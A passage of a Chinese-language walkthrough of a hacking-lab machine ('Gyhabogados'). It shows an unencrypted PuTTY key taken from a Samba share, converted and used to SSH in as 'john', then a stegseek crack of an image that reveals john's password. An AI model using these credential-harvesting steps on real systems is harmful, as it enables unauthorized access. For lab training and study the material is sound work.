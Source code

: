 ## 4. dean -> john

`dean`用户同样可以访问Samba共享。检查 `[IT_TOOLS]` 共享。

```bash
dean@TheHackersLabs-Gyhabogados:~$ cd /mnt/IT_TOOLS/
dean@TheHackersLabs-Gyhabogados:/mnt/IT_TOOLS$ ls -al
total 12
drwxr-x--- 2 root it   4096 Dec  8  2024 .
drwxr-xr-x 5 root root 4096 Dec  8  2024 ..
-rw-r--r-- 1 root root 1458 Dec  7  2024 private_key.ppk
```

发现了一个`PuTTY`格式的私钥文件 `private_key.ppk`。查看其内容可知该密钥未加密。

```bash
dean@TheHackersLabs-Gyhabogados:/mnt/IT_TOOLS$ strings private_key.ppk
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
...
```

将私钥传输回Kali，并使用`puttygen`转换为OpenSSH格式。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ puttygen private_key.ppk -O private-openssh -o /tmp/id_rsa
└─$ chmod 600 /tmp/id_rsa
```

根据`/home`目录下的用户列表，推测该密钥属于`john`用户。尝试使用该密钥SSH登录。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh john@192.168.205.131 -i /tmp/id_rsa
...
john@TheHackersLabs-Gyhabogados:~$ id
uid=1003(john) gid=1003(john) groups=1003(john),100(users),1005(it)
```

成功以`john`用户身份登录。

## 5. john -> root

登录后，检查`john`的`sudo`权限，提示需要密码。

```bash
john@TheHackersLabs-Gyhabogados:~$ sudo -l
[sudo] password for john: 
sudo: a password is required
```

在之前`dean`用户的邮箱中，曾发现一张名为`impala_67.jpg`的图片。这通常暗示了隐写术。通过使用隐写工具（如`stegseek`）分析该图片，可以提取出`john`用户的密码。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ stegseek impala_67.jpg                              
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "ironmaiden"
[i] Original filename: "credentials.txt".
[i] Extracting to "impala_67.jpg.out".
...
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat impala_67.jpg.out
john: TI!Powerful2024
```
